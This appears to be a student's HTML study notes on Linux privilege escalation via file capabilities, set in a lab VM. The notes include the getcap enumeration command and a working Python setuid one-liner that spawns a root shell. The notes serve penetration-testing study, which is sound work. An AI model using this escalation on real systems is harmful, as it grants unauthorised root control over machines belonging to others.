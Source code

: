 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Capabilites</title>
</head><body><b>Escalation via capabilites</b><br/>
<br/>
Similar to SUID.<br/>
<br/>
Newer version.<br/>
<br/>
comparison of privilaged to uinprivilaged.<br/>
<br/>
Privialged bypass all permission checks. Unprivilaged have all checks carried otu.<br/>
<br/>
Capabilites started at Kernal 2.2<br/>
<br/>
Divides privilages associated wtih super user into distinct units<br/>
<br/>
these units are capbilites... they can be enabeled or disabled as requried.<br/>
<br/>
These are more secure than SUID and linux systems are transitioning to them<br/>
<br/>
<br/>
to find<br/>
<br/>
<b>getcap -r / 2&gt;/dev/null</b><br/>
<br/>
Based on what is returned, escalation could be as simple as a 1 liner.<br/>
<br/>
<br/>
<img height="71" src="image.png" width="700"/><br/>
this example is python. maybe they are a dev and need root access for dev work wtih python only.<br/>
This would not have shown up under a SUID find as its a capability not SUID.<br/>
<br/>
When seeing 'ep' THINK Permit Everything... this is what we want to find.<br/>
<br/>
escalation with this is a simple python script.<br/>
<br/>
<b>/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system(&quot;/bin/bash&quot;)'</b><br/>
<br/>
This will compile and excute granting root.<br/>
<br/>
<img height="55" src="image 2.png" width="750"/><br/>
<br/>
Linpeas may find this<br/>
<br/>
other things to look into <br/>
<br/>
tar<br/>
<br/>
openssl<br/>
<br/>
perl<br/>
<br/>
When in doubt GOOGLEout<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: getcap -r / 2&gt;/dev/null<br/>
2. From the output, notice the value of the “cap_setuid” capability.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system(&quot;/bin/bash&quot;)'<br/>
2. Enjoy root!<br/>
</body></html>